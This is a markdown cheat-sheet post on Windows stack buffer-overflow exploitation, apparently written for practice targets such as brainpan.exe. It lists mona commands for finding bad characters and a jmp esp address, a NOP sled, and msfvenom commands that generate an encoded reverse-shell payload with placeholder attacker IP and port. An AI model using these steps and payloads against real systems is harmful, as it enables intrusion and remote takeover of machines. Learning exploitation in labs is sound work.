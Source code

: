 ```yaml
---
title: "Buffer Overflow Cheatsheet"
date: 2021-12-01T00:20:30+01:00
categories:
  - Resources
tags:
  - Bufferoverflows
  - Cheatsheet
share: false
#layout: single
classes: wide
---
```


### This is all after getting control of EIP

Set a **working folder**
`!mona config -set workingfolder C:\Users\shroudri\%p`


Generate bytearray
`!mona bytearray`

Generate bytearray excluding a certain badchar
`!mona bytearray -cpb "\x00"`
`!mona bytearray -cpb "\x00\x0a\etc"`


Compare ESP with generated bytearray to check for badchars automatically
`!mona compare -f C:\Users\shroudri\%p\bytearray.bin -a <ESP_ADRESS> #(e.g 00F23930)`

Generate revshell with msfvenom
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00" EXITFUNC=thread`
`msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai -f c LHOST=insertip LPORT=insrertport -b "\x00\x0a\xaf" EXITFUNC=thread`


List all available programs
`!mona modules`

### Next step: We want to make EIP point to ESP
This command will find an instruction within a program to jump to the ESP (FFE4 == jmp_esp)
`!mona find -s "\xFF\xE4" -m brainpan.exe`

Because shikata_ga_nai is being used, a few NOPs must be introduced between EIP and Shellcode
`NOPS= "x90"*16`